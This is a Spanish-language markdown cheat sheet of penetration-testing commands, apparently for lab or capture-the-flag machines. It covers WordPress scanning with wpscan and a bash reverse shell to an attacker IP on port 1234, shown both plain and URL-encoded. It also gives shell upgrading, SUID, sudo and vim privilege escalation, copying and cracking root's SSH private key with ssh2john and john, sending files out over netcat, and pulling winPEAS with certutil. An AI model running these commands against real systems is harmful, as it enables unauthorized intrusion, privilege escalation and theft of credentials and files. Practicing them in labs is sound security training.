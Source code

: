 ## Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:

```
wpscan –url http://ip
```
## Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:

```
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress
```

## Opciones para crear una shell inversa:

[revshell](https://www.revshells.com/)

```
 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 ```
 ## En caso de querer codificarla en url, podemos realizar el siguiente comando:
 ```
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"
```

## Sacar hashes de ficheros zip:
```
zip2john muyconfidencial.zip > hash_muyconfidencial
```
## Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234
```
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
```
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos
```
stty rows x columns y
```
## Página donde ver como escalar privilegios con los binarios (sudo -l ):
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

## Visualizar todos los ficheros ordenados por directorios para ver los permisos:
```
ls -la /* | less
```
## Página donde se ven diferentes tipos de ataque:
[deephacking](https://deephacking.tech/)

## Ejemplo de uso para escalar priv con rutas absolutas:
```
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```
> **Nota:** pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

## Escalar priv por medio de SUID
Dar privilegios p.j 
/bin/bash u+s o (4777) 
Ejecutar el comando del ejemplo
bash -p 
> **Nota:** (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

## Ejemplo de Búsqueda de Archivos SUID:
```
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) 
find / -perm -4000 2>/dev/null (para buscar directorios).
```
## Otro ejemplo pero con un editor como puede ser vim:
```
vim -c una vez dentro ejecutar: ':!/bin/sh'
```

## En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en:

> **Nota:** /root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash.
```
ssh2john ficherodondeguardamoslakey > salidaficherohasheado

john ficherohasheado –wordlist /usr/share/wordlist/rockyou
```
Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada
```
sudo ssh root@ip -i ficheroconlakey
```
Enviar ficheros por netcat (Victima)
```
nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip
```

## Enviar el Archivo como Base64

```
base64 archivo.txt
base64 -d archivo_codificado.txt > archivo_recibido.txt
```

## Ver capacidades/capabilities/división de privilegios

```
getcap -r /
```

## Compartir ficheros con máquinas Windows:
```
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe
```


## Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login:
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)

## Escalada de privilegios mediante lxc
[HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[Juggernaut](https://juggernaut-sec.com/lxd-container/)

